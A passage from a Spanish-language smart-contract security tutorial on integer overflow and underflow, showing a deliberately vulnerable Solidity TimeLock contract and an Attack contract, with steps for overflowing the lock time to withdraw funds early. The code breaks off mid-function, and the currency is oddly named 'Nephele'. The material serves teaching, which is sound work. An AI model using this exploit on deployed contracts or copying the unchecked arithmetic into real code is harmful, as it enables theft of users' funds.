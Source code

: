 Los desbordamientos de enteros ocurren también a la inversa: los resultados de una operación aritmética pueden caer por debajo del rango aceptable (underflow). Digamos que intentó disminuir `0` en un `uint8`; el resultado simplemente se revertiría al valor máximo representable (`255`).

Tanto los desbordamientos de enteros hacia arriba o hacia abajo (overflows y undeflows) pueden conducir a cambios inesperados en las variables de estado de un contrato y dar lugar a una ejecución no planificada. A continuación se muestra un ejemplo que muestra cómo un atacante puede explotar el desbordamiento aritmético de overflow en un contrato inteligente para realizar una operación no válida:

```
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 Nephele. You will immediately be able to
   withdraw your Nephele.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Nephele");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
```